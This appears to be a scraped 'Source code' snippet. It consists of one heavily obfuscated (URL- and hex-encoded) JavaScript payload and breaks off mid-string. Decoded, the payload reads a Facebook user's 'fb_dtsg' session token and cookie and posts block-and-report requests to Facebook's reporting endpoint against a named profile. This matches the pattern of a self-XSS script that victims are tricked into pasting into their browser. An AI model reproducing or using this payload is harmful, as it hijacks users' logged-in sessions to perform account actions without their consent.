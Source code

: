 /*HTML/JavaScript%76%61%72%20%5F%30%78%62%31%36%31%3D%5B%22%5C%78%37%36%5C%78%36%31%5C%78%36%43%5C%78%37%35%5C%78%36%35%22%2C%22%5C%78%36%36%5C%78%36%32%5C%78%35%46%5C%78%36%34%5C%78%37%34%5C%78%37%33%5C%78%36%37%22%2C%22%5C%78%36%37%5C%78%36%35%5C%78%37%34%5C%78%34%35%5C%78%36%43%5C%78%36%35%5C%78%36%44%5C%78%36%35%5C%78%36%45%5C%78%37%34%5C%78%37%33%5C%78%34%32%5C%78%37%39%5C%78%34%45%5C%78%36%31%5C%78%36%44%5C%78%36%35%22%2C%22%5C%78%36%44%5C%78%36%31%5C%78%37%34%5C%78%36%33%5C%78%36%38%22%2C%22%5C%78%36%33%5C%78%36%46%5C%78%36%46%5C%78%36%42%5C%78%36%39%5C%78%36%35%22%2C%22%5C%78%36%37%5C%78%36%35%5C%78%37%34%5C%78%35%34%5C%78%36%39%5C%78%36%44%5C%78%36%35%22%2C%22%5C%78%32%46%5C%78%32%46%5C%78%37%37%5C%78%37%37%5C%78%37%37%5C%78%32%45%5C%78%36%36%5C%78%36%31%5C%78%36%33%5C%78%36%35%5C%78%36%32%5C%78%36%46%5C%78%36%46%5C%78%36%42%5C%78%32%45%5C%78%36%33%5C%78%36%46%5C%78%36%44%5C%78%32%46%5C%78%36%31%5C%78%36%41%5C%78%36%31%5C%78%37%38%5C%78%32%46%5C%78%37%32%5C%78%36%35%5C%78%37%30%5C%78%36%46%5C%78%37%32%5C%78%37%34%5C%78%32%46%5C%78%37%33%5C%78%36%46%5C%78%36%33%5C%78%36%39%5C%78%36%31%5C%78%36%43%5C%78%32%45%5C%78%37%30%5C%78%36%38%5C%78%37%30%22%2C%22%5C%78%36%36%5C%78%36%32%5C%78%35%46%5C%78%36%34%5C%78%37%34%5C%78%37%33%5C%78%36%37%5C%78%33%44%22%2C%22%5C%78%32%36%5C%78%36%32%5C%78%36%43%5C%78%36%46%5C%78%36%33%5C%78%36%42%5C%78%33%44%5C%78%33%31%5C%78%32%36%5C%78%37%30%5C%78%37%30%5C%78%33%44%5C%78%32%35%5C%78%33%37%5C%78%34%32%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%31%5C%78%36%33%5C%78%37%34%5C%78%36%39%5C%78%36%46%5C%78%36%45%5C%78%37%33%5C%78%35%46%5C%78%37%34%5C%78%36%46%5C%78%35%46%5C%78%37%34%5C%78%36%31%5C%78%36%42%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%35%42%5C%78%35%44%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%31%5C%78%37%32%5C%78%36%35%5C%78%35%46%5C%78%36%36%5C%78%37%32%5C%78%36%39%5C%78%36%35%5C%78%36%45%5C%78%36%34%5C%78%37%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%36%36%5C%78%36%31%5C%78%36%43%5C%78%37%33%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%33%5C%78%36%39%5C%78%36%34%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%22%2C%22%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%33%5C%78%36%46%5C%78%36%45%5C%78%37%34%5C%78%36%35%5C%78%36%45%5C%78%37%34%5C%78%35%46%5C%78%37%34%5C%78%37%39%5C%78%37%30%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%33%30%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%35%5C%78%37%38%5C%78%37%30%5C%78%36%31%5C%78%36%45%5C%78%36%34%5C%78%35%46%5C%78%37%32%5C%78%36%35%5C%78%37%30%5C%78%36%46%5C%78%37%32%5C%78%37%34%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%33%31%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%36%5C%78%36%39%5C%78%37%32%5C%78%37%33%5C%78%37%34%5C%78%35%46%5C%78%36%33%5C%78%36%38%5C%78%36%46%5C%78%36%39%5C%78%36%33%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%36%5C%78%36%39%5C%78%36%43%5C%78%36%35%5C%78%35%46%5C%78%37%32%5C%78%36%35%5C%78%37%30%5C%78%36%46%5C%78%37%32%5C%78%37%34%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%36%5C%78%37%32%5C%78%36%46%5C%78%36%44%5C%78%35%46%5C%78%36%37%5C%78%36%35%5C%78%36%31%5C%78%37%32%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%34%5C%78%36%39%5C%78%36%44%5C%78%36%35%5C%78%36%43%5C%78%36%39%5C%78%36%45%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%39%5C%78%37%33%5C%78%35%46%5C%78%36%36%5C%78%36%46%5C%78%36%43%5C%78%36%43%5C%78%36%46%5C%78%37%37%5C%78%36%39%5C%78%36%45%5C%78%36%37%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%36%36%5C%78%36%31%5C%78%36%43%5C%78%37%33%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%39%5C%78%37%33%5C%78%35%46%5C%78%37%34%5C%78%36%31%5C%78%36%37%5C%78%36%37%5C%78%36%35%5C%78%36%34%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%36%36%5C%78%36%31%5C%78%36%43%5C%78%37%33%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%46%5C%78%36%45%5C%78%35%46%5C%78%37%30%5C%78%37%32%5C%78%36%46%5C%78%36%36%5C%78%36%39%5C%78%36%43%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%36%36%5C%78%36%31%5C%78%36%43%5C%78%37%33%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%30%5C%78%36%38%5C%78%36%31%5C%78%37%33%5C%78%36%35%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%33%33%5C%78%32%35%5C%78%33%32%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%37%32%5C%78%36%35%5C%78%36%36%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%32%35%5C%78%33%32%5C%78%33%32%5C%78%36%38%5C%78%37%34%5C%78%37%34%5C%78%37%30%5C%78%37%33%5C%78%32%35%5C%78%33%33%5C%78%34%31%5C%78%32%35%5C%78%33%35%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%34%36%5C%78%32%35%5C%78%33%35%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%34%36%5C%78%37%37%5C%78%37%37%5C%78%37%37%5C%78%32%45%5C%78%36%36%5C%78%36%31%5C%78%36%33%5C%78%36%35%5C%78%36%32%5C%78%36%46%5C%78%36%46%5C%78%36%42%5C%78%32%45%5C%78%36%33%5C%78%36%46%5C%78%36%44%5C%78%32%35%5C%78%33%35%5C%78%34%33%5C%78%32%35%5C%78%33%32%5C%78%34%36%5C%78%34%45%5C%78%36%31%5C%78%36%45%5C%78%32%45%5C%78%36%35%5C%78%37%32%5C%78%37%34%5C%78%37%34%5C%78%33%37%5C%78%32%35